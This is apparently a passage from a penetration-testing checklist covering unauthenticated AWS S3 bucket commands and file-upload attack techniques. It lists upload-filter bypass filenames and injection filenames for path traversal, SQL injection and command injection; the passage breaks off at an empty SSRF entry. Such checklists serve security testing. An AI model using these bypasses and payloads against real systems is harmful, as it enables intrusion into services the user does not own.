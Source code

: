     * [lazys3](https://github.com/nahamsec/lazys3)
    * [AWS Cli](https://aws.amazon.com/es/cli/)

    [http://bucket.s3.amazonaws.com](http://bucket.s3.amazonaws.com/) / [http://s3.amazonaws.com/bucket](http://s3.amazonaws.com/bucket) aws s3 cp test.txt s3://target --no-sign-request aws s3 ls s3://target --no-sign-request

    * [Metadata Cloud](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b)
    * [How the AWS Access Key & Secret works](https://github.com/streaak/keyhacks#AWS-Access-Key-ID-and-Secret)****

    ****

#### **File Upload:**

* Extensions Impact
  * `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
  * `SVG`: Stored XSS, SSRF, XXE
  * `GIF`: Stored XSS, SSRF
  * `CSV`: CSV injection
  * `XML`: XXE
  * `AVI`: LFI, SSRF
  * `HTML`, `JS` : HTML injection, XSS, Open redirect
  * `PNG`, `JPEG`: Pixel flood attack (DoS)
  * `ZIP`: RCE via LFI, DoS
  * `PDF`, `PPTX`: SSRF, BLIND XXE
* Blacklisting Bypass
  * PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
  * ASP → `asp`, `.aspx`, `.cer`, `.asa`
  * Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
  * Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`
  * Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
* Whitelisting Bypass
  * `file.jpg.php`
  * `file.php.jpg`
  * `file.php.blah123jpg`
  * `file.php%00.jpg`
  * `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
  * `file.php%00`
  * `file.php%20`
  * `file.php%0d%0a.jpg`
  * `file.php.....`
  * `file.php/`
  * `file.php.\`
  * `file.php#.png`
  * `file.`
  * `.html`
* Vulnerabilities
  * [ ] Directory Traversal
    * Set filename `../../etc/passwd/logo.png`
    * Set filename `../../../logo.png` as it might changed the website logo.
  * [ ] SQL Injection
    * Set filename `'sleep(10).jpg`.
    * Set filename `sleep(10)-- -.jpg`.
  * [ ] Command Injection
    * Set filename `; sleep 10;`
  *   [ ] SSRF
